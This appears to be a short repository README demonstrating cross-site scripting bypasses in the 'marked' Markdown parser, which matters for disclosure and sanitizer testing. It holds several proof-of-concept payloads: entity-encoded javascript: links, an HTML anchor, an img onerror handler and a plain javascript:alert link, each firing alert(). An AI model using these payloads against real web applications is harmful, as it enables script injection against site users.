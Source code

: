 # marked-expoit
Find expoit in marked trough README.md

This is a [A funny link](javascript&#x58document;alert&#40;1&#41);

I can try to use some <a href="javascript&#x58document;alert&#40;1&#41">HTML IN HERE AS WELL</a>


<img onerror="&#x58document;alert&#40;1&#41" src="foo.gif" />


If a malicious user could provide this input to the application javascript&#x58document;alert&#40;1&#41; resulting in a valid link, that when a user clicked it would execute alert(1).

[try me](javascript&#x58document;alert&#40;1&#41;)

[also try me](javascript:alert('boo');)
